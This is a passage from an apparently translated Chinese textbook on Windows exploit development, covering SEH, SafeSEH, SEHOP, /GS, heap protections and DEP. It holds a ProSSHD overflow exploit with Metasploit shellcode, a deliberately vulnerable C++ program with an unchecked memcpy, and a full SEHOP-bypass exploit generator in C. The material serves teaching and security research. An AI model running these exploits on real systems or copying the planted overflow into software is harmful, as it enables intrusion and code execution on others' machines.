sc += "\\xdb\\xed\\x1b\\xcc\\x1f\\x08\\x98\\xe5\\xdf\\xef\\x80\\x8f\\xda"
sc += "\\xb4\\x06\\x63\\x96\\xa5\\xe2\\x83\\x05\\xc5\\x26\\xe0\\xc8\\x55"
sc += "\\xaa\\xc9\\x6f\\xde\\x49\\x16"
req = "A" * 489 + jmp + pad + sc
ssh_client = paramiko.SSHClient()
ssh_client.load_system_host_keys()
ssh_client.connect(hostname, username=username, key_filename=None,
password=password)
sleep(15)      # Sleep 15 seconds to allow time for debugger connect
with closing(Read(ssh_client.get_transport(), req)) as scp:
    scp.receive("foo.txt")
```


注意：有时在 shellcode 之前需要使用 NOP 或填充。Metasploit shellcode 在调用 GETPC 例程时需要栈上的一些空间来对自身进行解码，如“sk”在其 Phrack 62 文章² 中所述（FSTENV (28-BYTE) PTR SS:[ESP-C]）。此外，如果 EIP 和 ESP 中保存的地址彼此太近（如果 shellcode 在栈上，这很常见），那么使用 NOP 是防止损坏的好方法。但在这种情况下，简单的栈调整或枢轴指令也可能奏效。只需将操作码字节前置到 shellcode 之前（例如，add esp,-450）。可以使用 Metasploit 汇编器以十六进制提供所需的指令，如下所示：

```
root@kali:~# /usr/share/metasploit-framework/tools/metasm_shell.rb
type "exit" or "quit" to quit
use ";" or "\n" for newline
metasm > add esp,-450
"\x81\xc4\xf4\x3e\xfe\xff\xff"
metasm >
```

## 如需调试利用程序

是时候重置虚拟系统并启动前面的脚本了。请记住快速附加到 wsshd.exe 并按 F9 运行程序。让程序达到初始异常。在反汇编部分的任意位置单击并按 CTRL-G 以打开“输入要跟随的表达式”对话框。输入 Mona 中你用于跳转到 ESP 的地址，如下所示。在此示例中，它是来自 MSVCR71.dll 的 0x7c345c30。按 F9 达到断点。


如果程序崩溃而不是达到断点，很可能是你的 shellcode 中存在坏字符，或者你的脚本中有错误。坏字符问题时有发生，因为易受攻击的程序（在此案例中为客户端 SCP 程序）可能会对某些字符产生反应，导致你的利用程序中止或以其他方式被修改。

要查找坏字符，你需要查看调试器的内存转储，并将该内存转储与你通过网络发送的实际 shellcode 进行匹配。要设置此检查，你需要返回虚拟系统并重新发送攻击脚本。当达到初始异常时，单击栈部分并向下滚动直到看到 A。继续向下滚动以找到你的 shellcode，然后执行手动比较。另一种简单的查找坏字符的方法是将单个字节的所有可能组合作为输入按顺序发送。你可以假设 0x00 是坏字符，因此你会输入类似这样的内容：

```
buf = "\x01\x02\x03\x04\x05\.......\xff" #Truncated for space
```


注意：你可能需要多次重复查找坏字符的过程，直到代码能正确执行。通常，你需要排除所有空白字符：0x00、0x20、0x0a、0x0d、0x1b、0x0b 和 0x0c。每次排除一个字符，直到所有预期字节都出现在栈段中。

一旦此过程正常工作，你应该能够到达你在 PUSH ESP 和 RETN 指令上设置的断点。按 F7 单步执行。指令指针现在应该指向你的 NOP 填充。短 NOP 滑板或填充应在反汇编器部分中可见，如图所示。


按 F9 允许执行继续。屏幕上应该出现一个计算器，如下所示，从而证明我们工作中的利用程序中 shellcode 执行成功！我们现在已经在真实世界的利用程序中演示了基本的 Windows 漏洞利用开发过程。


在本实验中，我们针对一个存在漏洞的 Windows 应用程序编写了可用的漏洞利用程序，以攻破目标系统。目标是提高您对 Immunity Debugger 和 Corelan 团队的 Mona 插件的熟悉程度，并尝试漏洞利用开发者常用的用于成功攻破应用程序的基本技术。通过识别未参与各种漏洞缓解控制（例如 ASLR）的模块，我们能够利用它们来构建可靠的漏洞利用。接下来，我们将更深入地探讨各种内存保护和绕过技术。

## 理解结构化异常处理 (SEH)

当程序崩溃时，操作系统提供一种名为结构化异常处理 (SEH) 的机制，试图恢复操作。这通常在源代码中通过 try/catch 或 try/exception 块实现：

```c
int foo(void){
__try{
// An exception may occur here
}
__except( EXCEPTION_EXECUTE_HANDLER ){
// This handles the exception
}
return 0;
```

Windows 通过使用特殊结构²来跟踪 SEH 记录：

```asm
__EXCEPTION_REGISTRATION struc
    prev     dd     ?
    handler  dd     ?
__EXCEPTION_REGISTRATION ends
```

EXCEPTION_REGISTRATION 结构大小为 8 字节，包含两个成员：

| 成员 | 描述 |
|------|-----|
| prev | 指向下一个 SEH 记录的指针 |
| handler | 指向实际处理程序代码的指针 |

这些记录（异常帧）在运行时存储在堆栈上并形成链表。链表的开头始终放置在线程信息块 (TIB) 的第一个成员中，在 x86 机器上存储在 FS:[0] 寄存器中。如图 13-2 所示，链表的结尾始终是系统默认异常处理程序，并且该 EXCEPTION_REGISTRATION 记录的 prev 指针始终为 0xFFFFFFFF。


图 13-2 结构化异常处理 (SEH)

当触发异常时，操作系统 (ntdll.dll) 会将以下 C++ 函数放置在堆栈上并调用它：

```cpp
EXCEPTION_DISPOSITION
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    void * EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```

过去，攻击者只需覆盖堆栈上的一个异常处理程序，即可将控制权重定向到攻击者的代码（在堆栈上）。但后来情况发生了变化：

- 在调用异常处理程序之前，寄存器会被清零。
- 对位于堆栈上的异常处理程序的调用会被阻止。

SEH 链可能是一个有趣的目标，因为即便你正在覆盖堆栈上的返回指针，执行通常也无法到达返回指令。这通常是由于在到达函数尾声之前发生读或写访问违规引起的，原因是你向缓冲区发送了大量字符。在这种情况下，缓冲区之后的堆栈更下方是该线程的 SEH 链位置。读或写访问违规会导致 FS:[0] 被解引用，即存储第一个“下一个 SEH”（NSEH）值的线程堆栈地址。在堆栈上 NSEH 位置的正下方是将被调用的第一个处理程序的地址。如果无法通过覆盖返回指针来获取控制权，则用自定义地址覆盖此地址通常是获取控制权的一种简单方法。SafeSEH 旨在防止此技术生效，但如您将看到，它很容易被绕过。

## 理解并绕过 Windows 内存保护

如预期的那样，随着时间的推移，攻击者学会了如何利用早期版本 Windows 中缺乏内存保护的问题。作为回应，在 Windows XP SP2 和 Server 2003 时期左右，Microsoft 开始添加内存保护，这些保护在一段时间内相当有效。然而，攻击者最终也学会了绕过这些保护的方法。这是利用技术与旨在挫败这些技术成功的保护之间不断演进的过程。

## 安全结构化异常处理 (SafeSEH)

SafeSEH 保护的目的是防止覆盖和使用存储在堆栈上的 SEH 结构。如果程序使用 /SafeSEH 链接器选项进行编译和链接，则该二进制文件的头部将包含所有有效异常处理程序的表；在调用异常处理程序时会检查此表，以确保其在列表中。该检查作为 ntdll.dll 中 RtlDispatchException 例程的一部分执行，并执行以下测试：

- 确保异常记录位于当前线程的堆栈上。
- 确保处理程序指针不指回堆栈。
- 确保处理程序已注册在授权的处理程序列表中。
- 确保处理程序位于可执行的内存映像中。

由此可见，SafeSEH 保护机制采取措施保护异常处理程序，但如您稍后将看到，它并非万无一失。

## 绕过 SafeSEH

如前所述，当触发异常时，操作系统会将 except_handler 函数放置在堆栈上并调用它，如图 13-3 所示。

```cpp
EXCEPTION_DISPOSITION  _cdecl _except_handler (
   struct _EXCEPTION_RECORD *_ExceptionRecord,
   void *__EstablisherFrame,
   struct _CONTEXT *_ContextRecord,
   void *_DispatcherContext
);
```


图 13-3 处理异常时的堆栈

首先，请注意，在处理异常时，__EstablisherFrame 指针存储在 ESP+8 处。__EstablisherFrame 指针实际上指向我们异常处理程序链的顶部。因此，如果我们将覆盖的异常记录的 __next 指针更改为汇编指令 EB 06 90 90（将向前跳转 6 字节），并将 __handler 指针更改为共享 DLL/EXE 中 POP/POP/RETN 序列的某个位置，我们就可以将程序控制权重定向到堆栈上的攻击者代码区域。

当操作系统处理异常时，将调用处理程序，它确实会从堆栈中弹出 8 字节并执行 ESP+8 处指向的指令（即我们的 JMP 06 命令），控制权将重定向到堆栈上的攻击者代码区域，其中可能放置有 shellcode。


> 注意 在这种情况下，我们只需向前跳转 6 字节即可清除以下地址和跳转指令的 2 字节。有时，由于空间限制，可能需要在堆栈上向后跳转；在这种情况下，可以使用负数向后跳转（例如，EB FA FF FF 将向后跳转 6 字节）。

Corelan.be 网站上有一个关于利用 SEH 行为的最常见技术的优秀教程（https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/）。击败 SafeSEH 的最简单方法是找到一个未使用该保护进行编译的模块，并使用上述描述的相同技术来简单地绕过它。

## SEH 覆盖保护 (SEHOP)

在 Windows Server 2008 中，添加了另一种保护机制，称为 SEH 覆盖保护 (SEHOP)。SEHOP 由 RtlDispatchException 例程实现，该例程遍历异常处理程序链并确保其可以到达 ntdll.dll 中的 FinalExceptionHandler 函数。如果攻击者覆盖了异常处理程序帧，则链条将中断，通常不会继续到 FinalExceptionHandler 函数。这里的关键词是 *normally*——正如 Sysdream.com 的 Stéfan Le Berre 和 Damien Cauquil 所演示的，可以通过创建指向 ntdll.dll FinalExceptionHandler 函数的假异常帧来克服这一问题。我们将在本章后面演示他们的技术。SEHOP 在 Windows 7、8 或 10 上默认未启用；但是，它在 Windows Server 2012 及更高版本上默认启用。可以通过注册表或使用 Microsoft 的增强缓解体验工具包 (EMET) 打开它，这是管理该保护最常见的方法。当使用 EMET 启用 SEHOP 时，线程堆栈上 SEH 链末尾的 NSEH 位置不再具有 0xFFFFFFFF。相反，它指向为 EMET.dll 创建的内存区域。在该内存区域中是预期的 0xFFFFFFFF，下面有一个指向 EMET.dll 的指针，其中包含下一节中描述的特定指令集。

## 绕过 SEHOP

Sysdream.com 团队开发了一种巧妙的方法来绕过 SEHOP，即重构一个以实际系统默认异常处理程序 (ntdll!FinalExceptionHandler) 结束的适当 SEH 链。⁴ 应当从一开始指出，这种类型的攻击仅在以下所有条件都满足的有限条件下才有效：

- 当您拥有本地系统访问权限（本地漏洞利用）时
- 当允许 NULL 字节的 memcpy 类型漏洞可能时
- 当受控堆栈区域内存地址的第三个字节在 0x80 到 0xFB 之间时
- 当可以找到未受 SafeSEH 保护且包含以下指令序列的模块/DLL时（这将稍后解释）：
  - XOR [register, register]
  - POP [register]
  - POP [register]


- RETN

这些指令复制了 EMET.dll 中存储的内容。

正如 Sysdream 团队所解释的，最后一个要求听起来并不难——在需要返回零或 NULL 值的函数末尾，这种情况经常出现；在这种情况下，EAX 被 XOR 运算，函数返回。


NOTE 您可以使用 !mona fw -s xor eax, eax # pop * # pop * # ret -m <module> 搜索所需序列，但您可能需要尝试不同的通配符。

如图 13-4 所示，将在堆栈上放置一个伪造的 SEH 链，最后一条记录将是系统默认异常处理程序的实际位置。


图 13-4 Sysdream.com 用于绕过 SEHOP 的技术（经许可使用）

这种技术与传统 SafeSEH 技术的关键区别在于，使用 JE (74) “等于零时条件跳转”指令，而不是传统的 JMP short (EB) 指令。JE 指令 (74) 接收一个操作数，即一个单字节，用作有符号整数偏移量。因此，如果您想向后跳转 10 字节，将使用 74 F7 操作码。现在，由于我们有一条短汇编指令，它也可能是堆栈上的有效内存地址，因此可以实施此攻击。如图 13-4 所示，我们将用一个指向我们控制的内存（其中将放置包含指向系统默认异常处理程序实际地址的伪造 SEH 记录）的有效指针来覆盖“下一个 SEH”指针。接下来，我们将用指向非 SafeSEH 保护的模块/DLL 中 XOR/POP/POP/RETN 序列地址的指针来覆盖“SEH 处理程序”指针。这将产生所需效果，即在特殊寄存器中设置零位，并使我们的 JE (74) 指令执行并向后跳转到我们的 NOP 滑板。此时，我们将沿着滑板进入下一个操作码 EB 08，它将向前跳转，越过两个指针地址，并继续进入下一个 NOP 滑板。最后，我们将跳过最后一个 SEH 记录并进入真正的 shellcode。

总结来说，在此案例中，我们的攻击如下所示：

- NOP 滑板
- EB 08（或 EB 0A 以跳过两个地址）
- 下一个 SEH：堆栈上我们控制的、以（负字节）74 结尾的地址
- SEH 处理程序：非 SafeSEH 模块中 XOR/POP/POP/RETN 序列的地址
- NOP 滑板
- EB 08（或 EB 0A 以跳过两个地址）
- 在刚才给出的地址处：0xFFFFFFFF
- 实际系统默认异常处理程序
- Shellcode

为演示此漏洞利用，我们将使用以下带有 SafeSEH 保护的易受攻击程序及其关联 DLL（无 SafeSEH 保护）：


NOTE 虽然这是一个现成程序，但它代表了野外常见的程序。此程序将用于绕过 /GS、SafeSEH 和 SEHOP 保护。欢迎自行尝试运行此程序。

```cpp
// fool.cpp : Defines the entry point for the console application.
#include "stdafx.h"
#include "stdio.h"
#include "windows.h"

extern "C" __declspec(dllimport)void test();

void GetInput(char* str, char* out)
{
    long lSize;
    char buffer[500];
    char * temp;
    FILE * hFile;
    size_t result;
    try {
        hFile = fopen(str, "rb"); //open file for reading of bytes
        if (hFile==NULL) {printf("No such file"); exit(1);} //error checking
        //get size of file
        fseek(hFile, 0, SEEK_END);
        lSize = ftell(hFile);
        rewind (hFile);
        temp = (char*) malloc (sizeof(char)*lSize);
        result = fread(temp,1,lSize,hFile);
        memcpy(buffer, temp, result); //vulnerability
        memcpy(out,buffer,strlen(buffer)); //triggers SEH before /GS
        printf("Input received : %s\n",buffer);
    }
    catch (char * strErr)
    {
        printf("No valid input received ! \n");
        printf("Exception : %s\n",strErr);
    }
    test(); //calls DLL, demonstration of XOR, POP, POP, RETN sequence
}

int main(int argc, char* argv[])
{
    char foo[2048];
    char buf2[500];
    GetInput(argv[1],buf2);
    return 0;
}
```

接下来，我们将展示 foo1.c 程序的关联 DLL：

```cpp
// foo1DLL.cpp : Defines the exported functions for the DLL application.
//This DLL simply demonstrates XOR, POP, POP, RETN sequence
//may be found in the wild with functions that return a Zero or NULL value

#include "stdafx.h"

extern "C" int __declspec(dllexport) test() {
    __asm
    {
        xor eax, eax
        pop esi
        pop ebp
        retn
    }
}
```

此程序和 DLL 可在 Visual Studio 2017 Community Edition 中创建。主 foo1.c 程序已使用 /GS 和 /SafeSEH 保护（添加了 SEHOP）进行编译，但未使用 DEP (/NXCOMPAT) 或 ASLR (/DYNAMICBASE) 保护。DLL 仅使用了 /GS 保护。如果 SEHOP 似乎缺失，您可以使用 EMET 启用它。


NOTE foo1 和 foo1dll 文件可通过从命令行删除对 stdafx.h 的引用并使用以下命令行选项进行编译：

```
cl /LD /GS foo1DLL.cpp /link /SafeSEH:no /DYNAMICBASE:no /NXCompat:no
```

```
cl /GS /EHsc foo1.cpp foo1DLL.lib /link /SafeSEH /DYNAMICBASE:no /NXCompat:no
```

编译程序后，让我们在 OllyDbg 或 Immunity Debugger 中查看它们，并验证 DLL 没有 /SafeSEH 保护而程序有。我们将使用下面所示的 OllySSEH 插件，您可以在 OpenRCE.org 的 Downloads 页面上找到它。Mona 可以使用前述的 fw（查找通配符）命令执行相同操作。


接下来，让我们在二进制文件中搜索 XOR/POP/POP/RETN 序列，如下所示：


NOTE OllyDbg 和 Immunity Debugger 有多种优秀插件可为您执行此搜索。您也可以通过在反汇编窗格中按 CTRL-S 并输入所需的确切指令来手动搜索。

现在，使用我们发现的地址，让我们在名为 sploit.c 的程序中构建漏洞利用。该程序创建攻击缓冲区并将其写入文件，以便馈送到易受攻击的程序。此代码基于 Sysdream.com 团队的代码，但根据代码开头的致谢注释所述，已进行大量修改。

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

/*
Credit: Heavily modified code from:
Stéfan LE BERRE (s.leberre@sysdream.com)
Damien CAUQUIL (d.cauquil@sysdream.com)
http://ghostsinthestack.org/
http://virtualabs.fr/
http://sysdream.com/
*/

// finding this next address takes trial and error in ollydbg or other debugger
char nseh[] = "\\x74\\x4f\\x12\\x00"; //pointer to 0xFFFFFFFF, then Final EH
char seh[] = "\\x7E\\x13\\x01\\x10"; //pointer to xor, pop, pop, ret

/* Shellcode size: 227 bytes */
char shellcode[] = "\\xb8\\x29\\x15\\xd8\\x8f\\x29\\xc9\\xb1\\x33\\xdd"
"\\xc2\\xd9\\x74\\x24\\xf4\\x5b\\x31\\x43\\x0e\\x03"
"\\x43\\x0e\\x83\\xea\\x11\\x3a\\x02\\x10\\xf1\\x33"
"\\xed\\xe8\\x02\\x24\\x67\\xd0\\x33\\x76\\x13\\x46"
"\\x66\\x46\\x57\\x0a\\x8b\\x2d\\x35\\xbe\\x18\\x43"
"\\x92\\xb1\\xa9\\xee\\xc4\\xfc\\x2a\\xdf\\xc8\\x52"
"\\xe8\\x41\\xb5\\xa8\\xd3\\xa2\\x84\\x63\\x30\\xa3"
"\\xc1\\x99\\xbb\\xf1\\x9a\\xd6\\xe6\\xe6\\xaf\\xaa"
"\\xb2\\x07\\x60\\xa1\\x8b\\x7f\\x05\\x75\\x7f\\xca"
"\\x04\\xa5\\xd0\\x41\\x4e\\x5d\\x5a\\x0d\\x6f\\x5c"
"\\x8f\\xd4\\x53\\x17\\xa4\\xa6\\x27\\xa6\\x6c\\x7f"
"\\xc8\\x99\\x50\\x54\\xf7\\x16\\x5d\\xa4\\x3f\\x90"
"\\xbe\\xd3\\x4b\\xe3\\x43\\xe4\\x8f\\x9e\\x9f\\x61"
"\\x12\\x38\\x6b\\xd1\\xf6\\xb9\\xb8\\x84\\x7d\\xb5"
"\\x75\\xc2\\xda\\x9d\\x88\\x07\\x51\\xe5\\x01\\xa6"
"\\xb6\\x6c\\x51\\x8d\\x12\\x35\\x01\\xac\\x93\\x99"
"\\xe4\\xd1\\x54\\x7b\\x58\\x74\\x1e\\x69\\x8d\\x0e"
"\\x7d\\xe7\\x50\\x82\\xfb\\x4e\\x52\\x9c\\x03\\xe0"
"\\x3b\\xad\\x88\\x6f\\x3b\\x32\\x5b\\xd4\\xa3\\xd0"
"\\x4e\\x20\\x4c\\xd4\\x1b\\x89\\x11\\x6e\\xf1\\xcd"
"\\x2f\\xed\\xf0\\xad\\xcb\\xed\\x70\\xa8\\x90\\xa9"
"\\x69\\xc0\\x89\\x5f\\x8e\\x77\\xa9\\x75\\xed\\x16"
"\\x39\\x15\\xdc\\bd\\xb9\\xbc\\x20";
```


DWORD findFinalEH() {
return ((DWORD)(GetModuleHandle("ntdll.dll"))&0xFFFFFF000)+0xBA875;//calc FinalEH
}

int main(int argc, char *argv[]){
    FILE *hFile;                //file handle for writing to file
    UCHAR ucBuffer[4096];       //buffer used to build attack
    DWORD dwFEH = 0;            //pointer to Final Exception Handler

    // Little banner
    printf("SEHOP Bypass PoC\n");

    // Calculate FEH
    dwFEH = (DWORD)findFinalEH();
    if (dwFEH){
        // FEH found
        printf("[1/3] Found final exception handler: 0x%08x\n",dwFEH);
        printf("[2/3] Building attack buffer ... ");
        memset(ucBuffer,'\x41',0x208);     // 524 - 4 = 520 = 0x208 of nop filler
        memcpy(&ucBuffer[0x208],"\xEB\x0D\x90\x90\x90",0x04);
        memcpy(&ucBuffer[0x20C],(void *)&nseh,0x04);
        memcpy(&ucBuffer[0x210],(void *)&seh,0x04);
        memset(&ucBuffer[0x214],'\x42',0x28);          //nop filler
        memcpy(&ucBuffer[0x23C],"\xEB\x0A\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF",0x08); //jump 10
        memcpy(&ucBuffer[0x244],(void *)&dwFEH,0x4);
        memcpy(&ucBuffer[0x248],shellcode,0xE3);
        memset(&ucBuffer[0x32B],'\x43',0xcd0);         //nop filler
        printf("done\n");
    }

    printf("[3/3] Creating %s file ... \\n",argv[1]);
    hFile = fopen(argv[1],"wb");
    if (hFile)
    {
        fwrite((void *)ucBuffer,0x1000,1,hFile);
        fclose(hFile);
        printf("Ok, you may attack with %s\n",argv[1]);
    }
}

让我们使用 Visual Studio 2017 社区版命令行工具 (cl) 编译此程序：

```
cl sploit.c
```

接下来，我们运行它以创建攻击缓冲区：

```
sploit.exe attack.bin
```

然后我们将其输入调试器并查看结果：

```
C:\odbg110\ollydbg sploit.exe attack.bin
```


注意：攻击缓冲区的偏移量和大小需要经过一些尝试和错误才能正确设置，这涉及在调试器中反复启动和测试，直到一切正确为止。


在调试器中运行程序后（使用多种缓冲区大小和栈地址），我们成功构建了所需的精确 SEH 链。请注意，第一个记录指向第二个记录，后者包含系统异常处理程序地址。还请注意 JMP short (EB) 指令，用于乘坐 NOP 滑板进入 shellcode（位于最终异常处理程序下方）。

最后，请注意，在程序崩溃后，我们已经控制了 SEH 列表（在屏幕左侧显示）。看起来我们已准备好继续在调试器中运行，或在不使用调试器的情况下运行漏洞利用。


我们还绕过了 /GS、SafeSEH 和 SEHOP。

## 基于栈的缓冲区溢出检测 (/GS)

/GS 编译器选项是 Microsoft 对栈金丝雀（stack canary）概念的实现，即生成一个随机的秘密值（每个进程调用生成一次），并将其放置在保存的 EBP 和保存的 RETN 地址上方的栈上。然后，在函数返回时，会检查栈金丝雀值是否已更改。此功能引入于 Visual C++ 2003，最初默认处于关闭状态。

新的函数序言如下：

```
push ebp
mov ebp, esp
sub esp, 24h ;space for local buffers and cookie
mov ax, dword ptr [vuln!__security_cookie]
xor eax, ebp ;xor cookie with ebp
mov dword ptr [ebp-4], eax ; store it at the bottom of stack frame
```

新的函数尾声如下：

```
mov ecx, dword ptr [ebp-4]
xor ecx, ebp ; see if either cookie or ebp changed
call vuln!__security_check_cookie (004012e8) ; check it, address will vary
leave
ret
```

由此可见，安全 Cookie 与 EBP 进行异或运算，并放置在栈上，位于保存的 EBP 之上，也称为保存的帧指针（SFP）。后来，当函数返回时，会检索安全 Cookie 并与 EBP 进行异或运算，然后测试它是否仍然与系统值匹配。这看起来很简单，但如我们稍后将向您展示，它并不总是足够。

在 Visual C++ 2005 中，Microsoft 默认启用了 /GS 保护，并添加了其他功能，例如将缓冲区移动到栈帧中较高的地址，并将缓冲区移动到其他敏感变量和指针之下，以便缓冲区溢出造成的局部损害更小。

重要的是要知道 /GS 功能并不总是被应用。出于优化原因，存在编译器选项未被应用的某些情况。这很大程度上取决于用于编译代码的 Visual Studio 版本。以下是一些可能不使用金丝雀的示例：

- 不包含缓冲区的函数
- 未启用优化
- 标记为 naked 关键字的函数 (C++)
- 第一行包含内联汇编的函数
- 定义为具有可变参数列表的函数
- 小于 4 字节的缓冲区

在 Visual C++ 2005 SP1 中，添加了一个附加功能，使 /GS 启发式更严格，以便保护更多函数。此添加是由在 /GS 编译代码中发现的若干安全漏洞所推动的。要调用此新功能，请包含以下代码行：

```
#pragma strict_gs_check(on)
```

后来，在 Visual Studio 2008 中，函数参数的副本被移动到栈帧顶部，并在函数返回时检索，从而使原始函数参数在被覆盖时变得无用。在 Visual Studio 2015 和 2017 中，/GS 保护变得更加积极，默认保护大多数函数。

### 绕过 /GS

/GS 保护机制可以通过多种方式绕过，如本节所述。

### 猜测 Cookie 值

猜测 Cookie 值并不像听起来那么疯狂。正如 Skape 所讨论和演示的，/GS 保护机制使用多个弱熵源，攻击者可以计算这些熵源并用于预测（或猜测）Cookie 值。^5 这仅适用于本地系统攻击，即攻击者可以访问该机器。

### 覆盖调用函数指针

当使用虚函数时，每个实例化对象都会收到指向虚函数表的指针，称为 vptr。虽然这并非针对 /GS 控件的实现，但完全避免安全 Cookie 的常见技术是针对已过早删除的实例化 C++ 类对象（例如 Use-After-Free (UAF) 漏洞）。如果我们可以在对象删除后导致分配发生，并仔细选择与已删除对象大小匹配的尺寸，则可以使用我们自己的数据重用该位置。如果在我们替换该对象后出现对该对象的引用，则我们控制 vptr。通过使用 corelanc0d3r 的 DOM 元素属性喷射 (DEPS) 等技术，我们可以在已知位置创建伪虚函数表。当取消引用 vptr+offset 时，它将调用我们控制的值。

### 用您选择的 Cookie 替换

Cookie 被放置在内存的 .data 节中，并且由于运行时需要计算并将其写入该位置，因此它是可写的。如果（这是一个巨大的“如果”）您拥有内存的任意写入访问权限（例如，通过另一个漏洞利用），则可以覆盖该值，并在覆盖栈时使用新值。

### 覆盖 SEH 记录

事实证明，/GS 保护不保护放置在栈上的 SEH 结构。因此，如果您可以写入足够的数据来覆盖 SEH 记录，并在函数尾声和 Cookie 检查之前触发异常，则可以控制程序执行流。当然，Microsoft 已实现 SafeSEH 以保护栈上的 SEH 记录，但正如您将看到的，它也存在漏洞。不过，一步一步来；让我们看看如何使用此绕过 SafeSEH 的方法来绕过 /GS。后来，在绕过 SEHOP 时，我们将同时绕过 /GS 保护。

### 堆保护

在过去，传统的堆漏洞利用会覆盖堆块头并尝试创建一个伪块，该伪块将在内存释放例程中用于在任意内存地址写入任意 4 字节。在 Windows XP SP2 及更高版本中，Microsoft 实现了一组堆保护以防止此类攻击：

- 安全取消链接。在取消链接之前，操作系统会验证前向和后向指针是否指向同一个块。
- 堆元数据 Cookie。一个字节的 Cookie 存储在堆块头中，并在从空闲列表取消链接之前进行检查。后来，在 Windows Vista 中，对几个关键头字段添加了 XOR 加密并在使用前进行检查，以防止篡改。

主要从 Windows Vista 和 Server 2008 开始（尽管在早期 Windows 版本中也有一些支持），低碎片化堆（LFH）可用


用于服务堆分配。LFH 取代了用户态中之前的前端堆分配器，即 Lookaside List。Lookaside List 存在围绕单链指针的安全问题以及缺乏安全 Cookie。LFH 可以服务满足特定条件的分配请求，并且效率更高，以避免碎片化。虽然已出现差异，但 LFH 通常在针对相同大小的 18 个连续分配请求到达时触发。每个块标头的前 4 个字节经过编码，以帮助防止堆溢出，充当安全 Cookie。<sup>6</sup> 请务必查看 Chris Valasek 关于 LFH 的研究。

Windows 8 及更高版本提供了额外的堆和 C++ 面向对象保护，例如密封优化以消除与虚函数调用相关的间接性。MSHTML.dll 还添加了虚函数表保护，称为 _vtguard_。它的工作原理是在 C++ 虚函数表中放置一个未知条目，在调用虚函数之前对其进行验证。在某些情况下使用保护页面，也有助于保护。如果在溢出期间到达保护页面，则会引发异常。请参阅“进一步阅读”部分中列出的 Ken Johnson 和 Matt Miller 的演示文稿。

## 摘要

本章展示的技术应该能让你通过栈溢出学习 Windows 漏洞利用的基础知识，以及绕过简单漏洞缓解措施。如你所见，Microsoft 操作系统中存在许多内存保护，具体取决于所选的编译器选项和其他因素。每种保护都会带来新的挑战供攻击者克服，从而形成一场猫鼠游戏。EMET 提供的保护等措施可以帮助阻止现成的漏洞利用，但正如讨论的那样，熟练的攻击者可以自定义漏洞利用以规避其中许多控制。在下一章中，我们将进入高级漏洞利用及相关漏洞缓解措施。

## 进一步阅读

- Corelan Team www.corelan.be
- “Windows 8 中的漏洞缓解改进”（Ken Johnson 和 Matt Miller），Microsoft Corp. media.blackhat.com/bh-us-12/Briefings/M_Miller/BH_US_12_Miller_Exploit_Mitigation_Slides.pdf
- “漏洞编写教程第 3 部分：基于 SEH 的漏洞利用”（Peter Van Eeckhoutte）www.corelan.be:8800/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh
- Microsoft Windows 调试工具 www.microsoft.com/whdc/devtools/debugging/default.mspx
- “mona.py – 手册”（corelanc0d3r）www.corelan.be/index.php/2011/07/14/mona-py-the-manual/
- “ProSSHD v1.2 20090726 缓冲区溢出漏洞利用”以及指向易受攻击应用程序的链接（原始漏洞利用由 S2 Crew 提供）www.exploit-db.com/exploits/11618/
- “ProSSHD 1.2 远程身份验证后漏洞利用（带 ASLR 和 DEP 绕过）”以及带 ROP 的易受攻击应用程序链接（Alexey Sintsov）www.exploit-db.com/exploits/12495/
- “ProSSHD 版本 1.2 下载”以及指向免费试用的链接 www.labtam-inc.com/articles/prosshd-1-2.html

## 参考文献

- 1. NETMARKETSHARE，“桌面操作系统市场份额”，https://www.netmarketshare.com/operating-system-market-share.aspx? qprid=10&qpcustomd=0（访问日期：2017 年 8 月 30 日）。
- 2. sk，“Windows Shellcode 的历史与进展”，Phrack 62，2004 年 6 月 22 日，phrack.org/issues/62/7.html。
- 3. Matt Pietrek，“Win32 结构化异常处理深度速成课程”，MSDN，1997 年 1 月，www.microsoft.com/msj/0197/exception/exception.aspx。
- 4. Stefan Le Berre 和 Damien Cauquil，“绕过 SEHOP”，Sysdream，2009 年，https://www.exploit-db.com/docs/english/15379-bypassing-sehop.pdf。
- 5. Matt Miller，“降低 GS Cookie 的有效熵”，Uninformed v7，2007 年 5 月，uninformed.org/?v=7&a=2。
- 6. Chris Valasek。“了解低碎片化堆”，illmatics.com，2010 年 8 月，illmatics.com/Understanding_the_LFH.pdf。

## 第 14 章
## 高级 Windows 漏洞利用

在上一章中，我们探讨了通过返回指针覆盖、结构化异常处理 (SEH) 覆盖以及与 SafeSEH 和结构化异常处理覆盖保护 (SEHOP) 相关的一些基本漏洞缓解绕过技术的基本 Windows 漏洞利用。多年来，漏洞编写者一直在利用一种称为面向返回编程 (ROP) 的技术来绕过硬件数据执行防护 (DEP) 等内存保护。许多控制措施旨在防止该技术生效，包括在 Microsoft 增强缓解体验工具包 (EMET) 中实现的各种控制措施。EMET 将于 2018 年 7 月停止支持；但是，它将与 Windows Defender 漏洞防护的现代实现一起延续。Exploit Guard 的首次引入始于 2017 年 10 月的 Windows 10 秋季创作者更新。其他常见的一般控制措施包括地址空间布局随机化 (ASLR)、控制流防护 (CFG)、隔离堆、MemGC 等。

- 在本章中，我们将介绍以下主题：
  - 利用 ROP 绕过硬件 DEP
  - 滥用基于浏览器的内存泄漏以绕过 ASLR

## 数据执行防护 (DEP)

数据执行防护旨在防止在堆、栈及其他不应允许代码执行的内存区域中执行代码。这长期以来一直是操作系统的目标，但在 2004 年之前，硬件都不包含支持。2004 年，AMD 在其 CPU 中推出了 NX 位。这首次允许硬件识别内存页面是否可执行并相应地采取行动。不久之后，Intel 推出了 XD 功能，其作用相同。自 XP SP2 以来，Windows 就可以使用 NX/XD 位。应用程序可以使用 /NXCOMPAT 标志进行链接，该标志将根据操作系统版本以及与内存权限和保护相关的各种关键函数的支持情况，为该应用程序启用硬件 DEP。漏洞缓解措施有三个主要类别：

- 应用程序可选
- OS 控制
- 编译器控制

